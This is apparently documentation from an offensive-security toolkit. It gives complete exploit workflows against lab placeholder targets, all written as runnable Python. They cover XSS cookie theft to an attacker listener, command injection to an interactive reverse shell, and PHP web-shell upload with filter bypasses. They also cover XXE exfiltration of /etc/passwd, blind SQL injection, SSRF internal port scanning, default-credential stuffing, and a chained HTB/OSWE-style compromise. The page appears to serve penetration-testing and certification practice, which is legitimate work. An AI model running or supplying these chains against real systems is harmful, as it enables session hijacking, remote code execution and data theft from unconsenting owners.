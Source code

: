 Workflows
=========

End-to-end POC workflows for common exploitation scenarios.

XSS Cookie Stealer
------------------

Complete workflow for stealing cookies via XSS:

.. code-block:: python

   import requests
   from utils.output import out
   from utils.xss import cookie_stealer
   from utils.server_hooks import get_cookie
   from utils.cookie import parse_cookie_string

   def exploit_xss(target, lhost, lport=8000):
       """Steal admin cookie via stored XSS"""

       # 1. Start server (in separate terminal)
       #    python -m poc.servers.server

       # 2. Generate XSS payload
       payload = cookie_stealer(f"http://{lhost}:{lport}")
       out.info(f"Payload: {payload}")

       # 3. Send payload to vulnerable endpoint
       out.status("Injecting XSS payload...")
       r = requests.post(
           f"{target}/comment",
           data={"content": payload},
           allow_redirects=False
       )

       if r.status_code == 302:
           out.success("Payload injected successfully")

       # 4. Wait for admin to visit and trigger callback
       out.status("Waiting for admin to view comment...")
       cookie_str = get_cookie(timeout=60)

       if not cookie_str:
           out.error("No callback received - admin may not have visited")
           return False

       out.success(f"Cookie captured: {cookie_str}")

       # 5. Parse and use stolen cookie
       cookies = parse_cookie_string(cookie_str)

       # 6. Access admin panel
       out.status("Accessing admin panel with stolen cookie...")
       r = requests.get(f"{target}/admin", cookies=cookies)

       if "Admin Panel" in r.text or r.status_code == 200:
           out.success("Successfully accessed admin panel!")
           return True
       else:
           out.error("Cookie didn't grant admin access")
           return False

   if __name__ == "__main__":
       exploit_xss("http://target.local", "10.10.14.5")

RCE to Interactive Shell
-------------------------

From command injection to full PTY shell:

.. code-block:: python

   import requests
   from utils.output import out
   from utils.reverse_shells import python_oneliner, bash_shell
   from utils.shell_catcher import auto_shell

   def exploit_rce(target, lhost, lport=4444):
       """Exploit RCE and get interactive shell"""

       # Generate shell payload
       cmd = python_oneliner(lhost, lport)
       out.info(f"Payload: {cmd}")

       # Catch shell automatically
       with auto_shell(lport) as catcher:
           # Trigger RCE
           out.status("Triggering RCE...")
           r = requests.post(
               f"{target}/api/run",
               json={"command": cmd},
               timeout=5
           )

           # Wait for shell
           out.status(f"Waiting for shell on port {lport}...")

           # Automatically upgrades to PTY and gives interactive shell
           if catcher.shell_caught:
               out.success("Shell caught!")
               catcher.stabilize()  # Upgrade to PTY
               out.info("Shell stabilized. Entering interactive mode...")
               catcher.interact()   # Full interactive shell!
           else:
               out.error("No shell received")

   if __name__ == "__main__":
       exploit_rce("http://target.local", "10.10.14.5")

File Upload to RCE
------------------

Upload malicious file and get shell:

.. code-block:: python

   import requests
   from utils.output import out
   from utils.file_upload import FileUploader
   from utils.reverse_shells import php_shell
   from utils.shell_catcher import quick_catch

   def exploit_upload(target, lhost, lport=4444):
       """Upload PHP shell and execute it"""

       # Generate PHP reverse shell
       shell_path = php_shell(lhost, lport)
       out.info(f"Generated shell at: {shell_path}")

       # Read shell content
       with open(f'payloads/{shell_path}', 'rb') as f:
           shell_code = f.read()

       # Upload with bypass techniques
       out.status("Uploading shell...")
       uploader = FileUploader(f"{target}/upload")

       result = uploader.upload_with_bypass(
           "shell.php",
           shell_code,
           techniques=["double_extension", "null_byte"]
       )

       if result.status_code != 200:
           out.error("Upload failed")
           return

       out.success("Shell uploaded!")

       # Trigger execution and catch shell
       def trigger():
           out.status("Triggering shell execution...")
           requests.get(f"{target}/uploads/shell.php", timeout=2)

       quick_catch(lport, trigger_func=trigger)

   if __name__ == "__main__":
       exploit_upload("http://target.local", "10.10.14.5")

XXE Data Exfiltration
---------------------

Read files via XXE:

.. code-block:: python

   import requests
   from utils.output import out
   from utils.xxe import quick_test
   from utils.server_hooks import get_exfil

   def exploit_xxe(target, lhost, lport=8000):
       """Exfiltrate /etc/passwd via XXE"""

       # 1. Start server (in separate terminal)
       #    python -m poc.servers.server

       # 2. Generate XXE payload (also creates DTD file)
       payload = quick_test(f"http://{lhost}:{lport}", "/etc/passwd")
       out.info("XXE payload generated")

       # 3. Send XXE payload
       out.status("Sending XXE payload...")
       r = requests.post(
           f"{target}/api/parse",
           data=payload,
           headers={"Content-Type": "application/xml"}
       )

       # 4. Wait for exfil callback
       out.status("Waiting for data exfiltration...")
       data = get_exfil(timeout=30)

       if data:
           out.success("Data exfiltrated!")
           out.raw("\\n" + "="*50)
           out.raw(data)
           out.raw("="*50 + "\\n")
           return data
       else:
           out.error("No data received")
           return None

   if __name__ == "__main__":
       exploit_xxe("http://target.local", "10.10.14.5")

Blind SQL Injection
-------------------

Extract data from blind SQLi:

.. code-block:: python

   import requests
   import string
   from utils.output import out
   from utils.timing import time_request

   def exploit_sqli_blind(target):
       """Extract database name via boolean-based blind SQLi"""

       def check_condition(condition):
           """Returns True if condition is true"""
           r = requests.get(
               f"{target}/api/user",
               params={"id": f"1' AND {condition}--"}
           )
           return "Welcome" in r.text

       # Extract database name
       db_name = ""
       charset = string.ascii_lowercase + string.digits + "_"

       out.info("Extracting database name...")

       for pos in range(1, 33):
           found = False
           for char in charset:
               condition = f"SUBSTRING(DATABASE(),{pos},1)='{char}'"

               if check_condition(condition):
                   db_name += char
                   out.status(f"Database: {db_name}")
                   found = True
                   break

           if not found:
               break

       out.success(f"Database name: {db_name}")
       return db_name

   def exploit_sqli_time(target):
       """Extract data via time-based blind SQLi"""

       def check_char(pos, char):
           """Returns True if char at position matches"""
           payload = f"1' AND IF(SUBSTRING(DATABASE(),{pos},1)='{char}',SLEEP(3),0)--"

           def attempt():
               return requests.get(f"{target}/api/user", params={"id": payload}, timeout=10)

           duration = time_request(attempt, payload)
           return duration > 3

       db_name = ""
       charset = string.ascii_lowercase + string.digits + "_"

       out.info("Extracting database name (time-based)...")

       for pos in range(1, 33):
           found = False
           for char in charset:
               if check_char(pos, char):
                   db_name += char
                   out.status(f"Database: {db_name}")
                   found = True
                   break

           if not found:
               break

       out.success(f"Database name: {db_name}")
       return db_name

   if __name__ == "__main__":
       # Boolean-based
       exploit_sqli_blind("http://target.local")

       # Time-based
       exploit_sqli_time("http://target.local")

SSRF to Internal Access
------------------------

Exploit SSRF to access internal services:

.. code-block:: python

   import requests
   from utils.output import out
   from utils.batch_request import batch_request_sync, generate_param_payloads
   import httpx

   def exploit_ssrf(target):
       """Use SSRF to scan internal network"""

       # 1. Test SSRF vulnerability
       out.info("Testing SSRF...")
       test_url = "http://127.0.0.1:80"
       r = requests.get(f"{target}/fetch", params={"url": test_url})

       if r.status_code == 200:
           out.success("SSRF confirmed!")
       else:
           out.error("SSRF test failed")
           return

       # 2. Scan internal ports
       out.status("Scanning internal ports...")
       client = httpx.Client()

       base = client.build_request("GET", f"{target}/fetch")

       # Common internal service ports
       ports = [22, 80, 443, 3306, 5432, 6379, 8080, 9200]
       internal_urls = [f"http://127.0.0.1:{port}" for port in ports]

       results = batch_request_sync(
           base,
           payloads=generate_param_payloads("url", internal_urls),
           validate=lambda r: r.status_code == 200 and len(r.text) > 100,
           concurrency=5
       )

       # Show open ports
       out.info("\\nOpen internal ports:")
       for result in results:
           if result.matched:
               port = result.payload['params']['url'].split(':')[-1]
               out.success(f"Port {port} is open")

       # 3. Try to access internal admin panel
       out.status("\\nTrying internal admin panel...")
       r = requests.get(
           f"{target}/fetch",
           params={"url": "http://127.0.0.1:8080/admin"}
       )

       if "admin" in r.text.lower():
           out.success("Accessed internal admin panel!")
           out.raw(r.text[:500])

   if __name__ == "__main__":
       exploit_ssrf("http://target.local")

Credential Stuffing
-------------------

Test multiple credentials efficiently:

.. code-block:: python

   import httpx
   from utils.output import out
   from utils.batch_request import batch_request_sync, generate_json_payloads

   def credential_stuffing(target):
       """Test common credential pairs"""

       # Common credentials
       creds = [
           {"username": "admin", "password": "admin"},
           {"username": "admin", "password": "password"},
           {"username": "admin", "password": "admin123"},
           {"username": "root", "password": "root"},
           {"username": "administrator", "password": "administrator"},
           {"username": "test", "password": "test"},
       ]

       out.info(f"Testing {len(creds)} credential pairs...")

       client = httpx.Client()
       base = client.build_request(
           "POST",
           f"{target}/api/login",
           json={"username": "", "password": ""}
       )

       # Test all credentials
       results = batch_request_sync(
           base,
           payloads=[{"json": cred} for cred in creds],
           validate=lambda r: r.status_code == 200 and "token" in r.text,
           concurrency=3  # Be gentle with login endpoints
       )

       # Show valid credentials
       for result in results:
           if result.matched:
               creds = result.payload['json']
               out.success(f"Valid creds: {creds['username']}:{creds['password']}")

   if __name__ == "__main__":
       credential_stuffing("http://target.local")

Complete HTB/OSWE Workflow
--------------------------

Full exploitation chain:

.. code-block:: python

   import requests
   from utils.output import out
   from utils.html_parser import HTMLParser
   from utils.xss import cookie_stealer
   from utils.server_hooks import get_cookie
   from utils.cookie import parse_cookie_string
   from utils.file_upload import FileUploader
   from utils.reverse_shells import php_shell
   from utils.shell_catcher import auto_shell

   def full_exploit(target, lhost):
       """Complete exploitation chain"""

       # Stage 1: Reconnaissance
       out.info("Stage 1: Reconnaissance")
       r = requests.get(target)
       parser = HTMLParser.from_response(r)

       # Find forms
       forms = parser.find_forms()
       out.success(f"Found {len(forms)} forms")

       # Find upload endpoint
       upload_form = None
       for form in forms:
           if 'upload' in form.get('action', '').lower():
               upload_form = form
               break

       if not upload_form:
           out.error("No upload form found")
           return

       # Stage 2: XSS to steal admin cookie
       out.info("\\nStage 2: XSS Cookie Theft")
       payload = cookie_stealer(f"http://{lhost}:8000")

       requests.post(f"{target}/comment", data={"msg": payload})
       out.status("Waiting for admin...")

       cookie_str = get_cookie(timeout=60)
       if not cookie_str:
           out.error("No cookie received")
           return

       out.success("Cookie captured!")
       cookies = parse_cookie_string(cookie_str)

       # Stage 3: File upload with stolen session
       out.info("\\nStage 3: File Upload")
       shell_path = php_shell(lhost, 4444)

       with open(f'payloads/{shell_path}', 'rb') as f:
           shell_code = f.read()

       uploader = FileUploader(f"{target}/upload")
       result = uploader.upload(
           "shell.php",
           shell_code,
           cookies=cookies
       )

       if result.status_code != 200:
           out.error("Upload failed")
           return

       out.success("Shell uploaded!")

       # Stage 4: Get interactive shell
       out.info("\\nStage 4: Shell Execution")

       with auto_shell(4444) as catcher:
           requests.get(f"{target}/uploads/shell.php", timeout=2)

           if catcher.shell_caught:
               out.success("Root access achieved!")
               catcher.stabilize()
               catcher.interact()

   if __name__ == "__main__":
       full_exploit("http://target.local", "10.10.14.5")
